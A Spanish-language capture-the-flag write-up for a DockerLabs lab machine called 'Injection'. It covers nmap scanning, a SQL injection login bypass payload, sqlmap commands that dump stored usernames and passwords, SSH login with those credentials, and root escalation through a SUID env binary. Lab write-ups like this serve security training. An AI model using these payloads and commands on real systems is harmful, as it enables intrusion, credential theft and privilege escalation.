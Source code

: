 # 🐧 DockerLabs CTF
## Maquina Injection

###### Dirección IP de la maquina: 172.17.0.2


### 🔧 Paso 1: Escaneo con nmap
```bash
sudo nmap -sV -Pn -open --min-rate 5000 172.17.0.2
```
#### Puertos abiertos:

- **22/tcp** → SSH
- **80/tcp** → HTTP (Apache)
---

### 🌐 Paso 2: Enumeración Web.
Al entrar al sitio lo primero que vemos es un login al cual ingresamos caracteres especiales para ver los mensajes de error.

notamos que al enviar el carácter **'** (comilla simple) se genera un error de sql lo que nos dice que el login es vulnerable a sql injection.

![Ver img](./images/login.png)



### 🌐 Paso 3: Explotación.

#### 3.1: Metodo 1: Inyeccion directa de SQL en el Login.
Ingresamos en el user  ``` ‘ or 1=1 # ``` , en contraseña ponemos cualquier cosa y tendremos acceso al sitio web

![Ver img](./images/web.png)

### 3.2: Metodo 2: sqlmap.
Otra foorma de acceder a la base de datos es usando la herramienta sqlmap

- listamos las base de datos

```bash
sqlmap -u http://172.17.0.2/index.php --forms --dbs –batch
```
![Ver img](./images/bases.png)

- Abrimos la base **register**
```bash
sqlmap -u http://172.17.0.2/index.php --forms  --batch -D register –tables
```
![Ver img](./images/tables.png)



- Vemos una tabla **Users** la cual abrimos para ver su estructura. 
```bash
sqlmap -u http://172.17.0.2/index.php --forms  --batch -D register -T users --column
```
![Ver img](./images/users.png)


- Conociendo las columas de la tabla listamos la informaciín que contiene. 
```bash
sqlmap -u http://172.17.0.2/index.php --forms  --batch -D register -T users -C username,passwd –dump
```
![Ver img](./images/dylan.png)

Encontramos el usuario y contraseña de Dylan las cuales usamos para acceder al citio web
![Ver img](./images/web.png)


### 🔑  Paso 4: Acceso ssh.
Verificamos si las credenciales encontradas sirven para acceder por ssh y efectivamente nos conectamos al servidor
```bash
ssh dylan@172.17.0.2
```
![Ver img](./images/ssh.png)


### 📈 Paso 5: Escalada de privilegios.
Verificamos si el usuario dylan puede ejecutar binarios como sudo con ```sudo -l ```: no permite la ejecución del comando.

Buscamos mas permisos: ```find / -perm -4000 2>/dev/null ```
![Ver img](./images/env.png)

Abrimos el binario **env**.  ```/usr/bin/env /bin/sh -p```. y hemos ganado acceso root.
![Ver img](./images/root.png)